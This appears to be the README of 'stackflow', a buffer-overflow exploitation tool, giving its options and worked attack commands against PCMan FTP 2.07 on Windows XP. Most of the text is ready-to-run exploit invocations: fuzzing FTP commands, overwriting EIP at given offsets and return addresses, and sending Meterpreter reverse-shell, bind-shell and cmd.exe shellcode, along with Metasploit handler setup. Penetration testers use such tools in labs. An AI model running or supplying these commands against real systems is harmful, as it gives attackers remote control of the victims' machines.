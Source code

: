 stackflow
=========

Universal stack-based buffer overfow exploitation tool


Usage
=========

	usage: ./stackflow.py OPTIONS

	optional arguments:
	  -h, --help            show this help message and exit
	  -r RHOST, --rhost RHOST
	                        rhost
	  -p RPORT, --rport RPORT
	                        rport
	  -c CMDS, --cmds CMDS  commands to send to server before overflow
	  -v VULNCMD, --vulncmd VULNCMD
	                        vulnerable command
	  -o OFFSET, --offset OFFSET
	                        offset to EIP
	  -ao AUTOOFFSET, --autooffset AUTOOFFSET
	                        calculate offset from cyclic pattern EIP string
	  -a RETURNADD, --returnadd RETURNADD
	                        return address
	  -n NOPS, --nops NOPS  number of NOPS \x90 x 4 to prepend
	  -m PAYLOAD, --payload PAYLOAD
	                        MSF payload
	  -i LHOST, --lhost LHOST
	                        lhost
	  -l LPORT, --lport LPORT
	                        lport
	  -f FUZZ, --fuzz FUZZ  Fuzz with cyclic pattern of size
	  -t, --calc            Send calc.exe shellcode
	  -t1, --cmdprompt      Send cmd.exe shellcode
	  -d, --display         Display the exploit buffer
	  -q, --quiet           Display less cruft
	  -w TIMEOUT, --timeout TIMEOUT
	                        Timeout for socket (Default: 5)
	  -e CFEXPORT, --cfexport CFEXPORT
	                        Export exploit config and metasploit rc file
	  -g CFIMPORT, --cfimport CFIMPORT
	                        Import and run exploit from config file
	  -s STANDALONE, --standalone STANDALONE
	                        Export exploit to a standalone python script

All options can be input via the command line or read from a config file.

Some examples for PCMan FTP 2.07 running on WindowsXP SP3(ENG):

Vulnerable app: http://www.exploit-db.com/wp-content/themes/exploit/applications/9fceb6fefd0f3ca1a8c36e97b6cc925d-PCMan.7z


Exploit without any commands and send meterpreter/reverse_tcp shellcode dialing back to 192.168.0.2 on port 4444:

	./stackflow.py -i 192.168.0.2 -l 4444 -r 192.168.0.9 -p 21 -o 2012 -m windows/meterpreter/reverse_tcp -a 7E429353


Exploit the USER command and send meterpreter/reverse_tcp shellcode dialing back to 192.168.0.2 on port 4444:

	./stackflow.py -i 192.168.0.2 -l 4444 -r 192.168.0.9 -p 21 -o 2007 -m windows/meterpreter/reverse_tcp -v 'USER' -a 7E429353


Exploit the PASS command and send calc.exe shellcode:

	./stackflow.py -r 192.168.0.9 -p 21 -o 6103 -v 'PASS' -c 'USER anonymous' -a 7E429353 -t


Exploit the ABOR command and send meterpreter/bind_tcp shellcode listening on 4444:

	./stackflow.py -r 192.168.0.9 -p 21 -o 2007 -v 'ABOR' -c 'USER anonymous&PASS a@a.com' -a 7E429353 -l 4444 -m windows/meterpreter/bind_tcp


Exploit the CWD command and send cmd.exe shellcode and display the exploit buffer:

	./stackflow.py -r 192.168.0.9 -p 21 -o 2008 -v 'CWD' -c 'USER anonymous&PASS a@a.com' -a 7E429353 -t1 -d


Fuzz the STOR command with a cyclic buffer of size 3000:

	./stackflow.py -r 192.168.0.9 -p 21 -v 'STOR' -c 'USER anonymous&PASS a@a.com' -f 3000


Exploit the CWD command with auto-offset string from EIP after fuzzing crash and send cmd.exe shellcode:

	./stackflow.py -r 192.168.0.9 -p 21 -ao o9Cp -v 'CWD' -c 'USER anonymous&PASS a@a.com' -a 7E429353 -t1


Export the exploit py and metasploit rc file:

	./stackflow.py -r 192.168.0.9 -p 21 -o 2008 -v 'CWD' -c 'USER anonymous&PASS a@a.com' -a 7E429353 -e revCWD -l 4444 -m windows/meterpreter/reverse_tcp -i 192.168.0.2


Start msfconsole and run the exploit and handler:

	msfconsole -r revCWD.rc


Run the exploit and handler from msfconsole:

	resource /path/to/revCWD.rc


Run an exploit from a config file (no handler!):

	./stackflow.py -g revCWD(.py)
